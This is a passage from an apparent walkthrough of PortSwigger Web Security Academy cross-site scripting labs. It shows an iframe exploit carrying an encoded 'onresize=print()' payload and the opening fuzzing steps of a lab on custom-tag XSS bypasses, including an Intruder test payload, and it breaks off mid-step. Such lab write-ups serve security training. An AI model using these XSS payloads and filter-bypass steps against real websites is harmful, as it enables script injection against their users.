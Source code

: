 ```
<iframe src="https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload=body.style.width='100%'></iframe>

```
> URL-encode the entire search term to ensure nothing goes amiss inside the iframe.

Store & deliver exploit to victim to solve the lab.

![image](https://github.com/user-attachments/assets/e44b5827-8853-4538-9abb-c2cfa580d0a3)



### LAB 15 - Reflected XSS into HTML context with all tags blocked except custom ones

### Lab Description

   ![image](https://github.com/user-attachments/assets/06471240-9caf-44d4-bb6f-04770bbc9ee3)

 ### Solution

The search term is reflected in the page response embedded within `<h1>` tags.

![Search reflection](https://github.com/user-attachments/assets/3c41e4fe-28d4-4f06-8540-6d8d009d601b)

---

## Step 1: Intruder Payload

The payload sent to Intruder for testing:

```html
<tag attrib=alert(1)>text</tag>
````

---

## Step 2: Attribute Testing

We begin by testing which attributes are allowed:

![Attribute test](https://github.com/user-attachments/assets/2edb841d-9fab-41b5-b1dd-0a92659775be)

It seems all attributes are valid:

![All attributes valid](https://github.com/user-attachments/assets/7474e0e7-68ec-46e4-bfb3-379c863e8ed4)

---

## Step 3: Tag Testing

Testing various tag names:
